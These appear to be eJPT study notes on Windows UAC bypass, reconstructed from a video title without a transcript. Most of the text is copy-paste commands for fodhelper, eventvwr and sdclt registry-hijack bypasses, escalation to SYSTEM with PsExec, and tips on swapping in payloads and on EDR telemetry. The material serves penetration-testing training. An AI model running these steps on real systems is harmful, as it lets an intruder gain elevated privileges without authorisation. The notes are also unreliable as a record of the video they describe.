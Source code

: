 # 04 – Windows Privilege Escalation: Bypassing UAC

Note: No transcript was provided. The notes below are a conservative reconstruction based on the filename and typical eJPT Windows post-exploitation content. Use only in lab environments with explicit authorization.

## What the video covers (Introduction / big picture)
- What UAC is and why it’s not a security boundary: it mediates elevation for members of the local Administrators group (split token), but does not help standard users become admins.
- The goal: from a low/medium-integrity shell running as a local admin (unelevated), obtain a high-integrity admin shell without triggering (or by abusing) UAC.
- Typical UAC bypass techniques leveraging auto-elevated Windows binaries (LOLbins) and HKCU registry hijacks:
  - fodhelper.exe (most reliable on many Win10 builds)
  - eventvwr.exe (legacy)
  - sdclt.exe (legacy, older builds)
- How to check prerequisites, execute the bypass, verify elevation, and clean up.

## Flow (ordered)
1. Confirm current user context and integrity level.
2. Verify you’re in local Administrators (split-token admin) and UAC is enabled.
3. Choose a bypass method (prefer fodhelper.exe).
4. Set the registry hijack in HKCU for the chosen LOLbin.
5. Trigger the auto-elevated binary to spawn a high-integrity shell.
6. Verify elevation (High Mandatory Level).
7. Clean up registry artifacts.
8. Optional: pivot from high-integrity admin to SYSTEM (e.g., PsExec) if needed.

## Tools highlighted
- Built-in:
  - cmd.exe, PowerShell
  - reg.exe
  - whoami
  - fodhelper.exe, eventvwr.exe, sdclt.exe
- Optional/enum:
  - winPEAS/PowerUp (enumeration)
- Optional post-bypass:
  - PsExec (Sysinternals) to get SYSTEM

## Typical command walkthrough (detailed, copy-paste friendly)

Legal/ethical reminder: Do this only on systems you are authorized to test.

### 0) Quick recon: user, integrity, UAC
```bat
:: Who am I and integrity info
whoami /user
whoami /groups | findstr /i "mandatory administrators"

:: Am I in Administrators (split token)? (look for BUILTIN\Administrators)
net localgroup administrators

:: UAC settings (1 = enabled, 0 = disabled)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

:: Admin prompt behavior (common default = 5)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin

:: Secure desktop prompt (1 = on)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v PromptOnSecureDesktop
```
Interpretation:
- You must already be a local admin (split-token) for UAC bypasses to work.
- If EnableLUA=0 and you’re admin, you’re already fully elevated (no bypass needed).

### 1) Method A (recommended): fodhelper.exe UAC bypass
- Works on many Windows 10 builds (default UAC = “Notify me only when apps try to make changes (default)”).
- Technique: Hijack HKCU class ms-settings DelegateExecute to run your command.

CMD version:
```bat
:: Set payload for elevated shell (here: launch a new elevated cmd)
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe /c start cmd.exe"
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /v "DelegateExecute" /t REG_SZ /d ""

:: Trigger fodhelper (use Sysnative if 32-bit shell on 64-bit OS)
if exist "%windir%\Sysnative\fodhelper.exe" (
  %windir%\Sysnative\fodhelper.exe
) else (
  %windir%\System32\fodhelper.exe
)

:: Verify High integrity
whoami /groups | findstr /i "Mandatory Label\High"
```

PowerShell version:
```powershell
# Payload: open elevated cmd
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /f /ve /t REG_SZ /d "cmd.exe /c start cmd.exe" | Out-Null
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /f /v "DelegateExecute" /t REG_SZ /d "" | Out-Null

# Trigger fodhelper
$path = "$env:windir\System32\fodhelper.exe"
if (Test-Path "$env:windir\Sysnative\fodhelper.exe") { $path = "$env:windir\Sysnative\fodhelper.exe" }
Start-Process -FilePath $path

# Verify
whoami /groups | findstr /i "Mandatory Label\High"
```

Cleanup:
```bat
reg delete HKCU\Software\Classes\ms-settings /f
```

### 2) Method B (legacy): eventvwr.exe file association hijack
- Often patched on newer Windows 10 builds; may still work on older systems (Win7/Win8/early Win10).
- Technique: Override HKCU mscfile association so eventvwr (auto-elevated) triggers your payload.

```bat
reg add HKCU\Software\Classes\mscfile\shell\open\command /f /ve /t REG_SZ /d "cmd.exe /c start cmd.exe"
start "" %windir%\System32\eventvwr.exe

whoami /groups | findstr /i "Mandatory Label\High"

:: Cleanup
reg delete HKCU\Software\Classes\mscfile /f
```

### 3) Method C (legacy): sdclt.exe UAC bypass (older builds)
- Typically works on older Windows 10 (pre-1709). Patched in newer versions.
- Technique: Hijack HKCU Folder shell open with DelegateExecute; trigger sdclt.

```bat
reg add HKCU\Software\Classes\Folder\shell\open\command /f /ve /t REG_SZ /d "cmd.exe /c start cmd.exe"
reg add HKCU\Software\Classes\Folder\shell\open\command /f /v "DelegateExecute" /t REG_SZ /d ""

%windir%\System32\sdclt.exe

whoami /groups | findstr /i "Mandatory Label\High"

:: Cleanup
reg delete HKCU\Software\Classes\Folder /f
```

### Optional: spawn SYSTEM after UAC bypass (post-bypass)
If you need NT AUTHORITY\SYSTEM and you’re now high-integrity admin:

Using PsExec (Sysinternals; requires admin rights):
```bat
psexec64.exe -accepteula -i -s cmd.exe
whoami
```

## Practical tips
- Prerequisite: UAC bypasses target split-token admins. If you’re a standard user, these won’t make you admin.
- UAC level matters: Consumer defaults (value 5) are the common target. “Always notify” or enterprise hardening may block these.
- 32-bit to 64-bit quirk: From a 32-bit shell on 64-bit Windows, use %windir%\Sysnative\ to reach 64-bit auto-elevated binaries (e.g., Sysnative\fodhelper.exe).
- Payload choice: Replace "cmd.exe /c start cmd.exe" with your actual payload (e.g., start powershell, run a service installer, launch your agent).
- Verify elevation: Look for “Mandatory Label\High Mandatory Level”. Also check that BUILTIN\Administrators is no longer DenyOnly.
- Clean up every key you set. Leaving HKCU\Software\Classes overrides can break shell behavior and is noisy.
- Detection: Many EDRs flag these sequences. In labs, that’s fine; in real engagements, be mindful of telemetry (reg, process creation, LOLbin execution).
- Alternatives if patched: Explore other UAC bypasses (cmstp.exe INF, SilentCleanup env hijack, COM-based methods) or escalate via different privilege escalation paths (services, unquoted paths, weak folder perms).

## Minimal cheat sheet (one-screen flow)
```bat
:: 1) Check context
whoami /groups | findstr /i "administrators mandatory"
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

:: 2) Fodhelper UAC bypass
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe /c start cmd.exe"
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /v "DelegateExecute" /t REG_SZ /d ""
if exist "%windir%\Sysnative\fodhelper.exe" (%windir%\Sysnative\fodhelper.exe) else (%windir%\System32\fodhelper.exe)

:: 3) Verify, then cleanup
whoami /groups | findstr /i "Mandatory Label\High"
reg delete HKCU\Software\Classes\ms-settings /f
```

## Summary
- UAC bypass elevates a split-token admin from medium to high integrity by abusing auto-elevated Windows binaries and HKCU registry hijacks.
- The fodhelper.exe method is commonly reliable on default Windows 10 UAC settings; eventvwr.exe and sdclt.exe are legacy/patch-dependent.
- Always confirm prerequisites (local admin + UAC enabled), verify the resulting integrity level, and clean up your registry changes.
- If needed, transition from high-integrity admin to SYSTEM with tools like PsExec.